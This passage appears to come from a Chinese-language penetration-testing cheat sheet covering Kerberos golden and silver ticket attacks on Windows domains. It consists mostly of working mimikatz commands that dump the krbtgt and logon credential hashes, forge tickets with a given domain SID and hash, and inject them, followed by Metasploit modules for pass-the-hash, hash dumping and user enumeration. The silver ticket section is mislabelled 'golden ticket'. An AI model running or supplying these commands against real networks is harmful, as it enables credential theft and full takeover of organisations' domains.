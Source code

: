 - dump krbtgt hash

```
privilege::debug
lsadump::lsa /patch
```
![](https://pic.superbed.cn/item/5d4bad1c451253d178f25b74.jpg)

- 生成ticket

```
kerberos::golden  /admin:administrator  /domain:0day.org /sid: S-1-5-21-1812960810-2335050734-3517558805 /krbtgt:36f9d9e6d98ecf8307baf4f46ef842a2  /ticket:test.kiribi
```
![](https://pic3.superbed.cn/item/5d4bba48451253d178f43e9a.jpg)

- 注入凭据

```
kerberos::ptt test.kirbi
```
![](https://pic.superbed.cn/item/5d4bc27c451253d178f576dc.jpg)
- 验证Golden ticket

![](https://pic.superbed.cn/item/5d4bc45b451253d178f5ba55.jpg)
## golden ticket（白银票据）

> 前提：
> 域名称
> 域SID
> 域的服务账户的密码hash
> 伪造用户名

- dump server hash

```
privilege::debug
sekurlsa::logonpasswords
```
![](https://pic3.superbed.cn/item/5d4bc7b5451253d178f63419.jpg)

- 导入凭证

```
kerberos::golden /domain:0day.org /sid:S-1-5-21-1812960810-2335050734-3517558805 /target:192.168.3.142 /rc4:74cca677f85c7c566352fd846eb0d82a  /service:cifs /user:syst1m /ptt
```

- 验证

![](https://pic.superbed.cn/item/5d4bd4a9451253d178f7fe27.jpg)

# Tips
```
mimikatz复制粘贴困难，可使用如>>log.txt
```
```
exploit/windows/smb/psexec 使用hash传递
```
```
post/windows/gather/smart_hashdump 读取hash
```
```
.domain_list_gen 获取域管理账户列表
```
```
auxiliary/gather/kerberos_enumusers 用户名枚举
```